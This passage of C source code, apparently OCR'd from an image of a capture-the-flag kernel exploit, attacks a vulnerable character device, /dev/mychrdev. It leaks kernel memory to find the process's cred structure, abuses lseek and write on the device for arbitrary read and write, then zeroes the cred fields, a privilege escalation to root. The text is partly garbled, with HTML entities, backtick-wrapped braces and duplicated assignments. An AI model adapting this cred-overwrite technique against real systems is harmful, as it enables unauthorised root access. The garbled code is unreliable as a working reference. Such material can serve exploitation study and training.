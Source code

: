 ```
        // printf("%x\n\n", n);
        close(fd);

        memset(buf, 0, sizeof buf);
        fd = fd = open("/dev/mychrdev", O_RDONLY);
        n = lseek(fd, 0, 0);
        // printf("%d\n", n);
        n = read(fd, buf, 0x10000);
        // printf("%d\n\n", n);
        close(fd);

        if (n != -1)
        `{`
            u_int result = memmem(buf, 0x10000, target, 16);
            if (result)
            `{`
                size_t temp = buf + result - (u_int)buf;
                real_cred = *(size_t *)(temp - 0x10);
                // target_addr = heap - addr + result - (u_int)(buf);
                break;
            `}`
        `}`
        else
        `{`
            break;
        `}`
    `}`

    pre_addr=addr;
    size_t mod=(real_cred&gt;&gt;16)&lt;&lt;16;
    addr=heap-mod;
    size_t p_pos=real_cred-mod;

    // printf("%p\n", pre_addr);
    // printf("%p\n", addr);
    // printf("%p\n", mod);
    // printf("%p\n", p_pos);

    fd = open("/dev/mychrdev", O_WRONLY);
    size_t pos = pre_addr + 0x10001;
    int n = lseek(fd, pos, 0);
    *(size_t *)buf = -(long long)(addr &gt;&gt; 8);
    *(size_t *)(buf + 8) = 0x100000000000LL;
    n = write(fd, buf, 0x1000);
    // printf("%x\n\n", n);
    close(fd);

    memset(buf, 0, sizeof buf);
    fd = fd = open("/dev/mychrdev", O_RDONLY);
    n = lseek(fd, p_pos, 0);
    // printf("%d\n", n);
    n = read(fd, buf, 0x100);
    // printf("%d\n\n", n);
    close(fd);

    // print_hex(buf,0x100);
    // printf("\n");
    for(int i=0;i&lt;0x28;i++)
    `{`
        buf[i]=0;
    `}`
    // print_hex(buf, 0x100);

```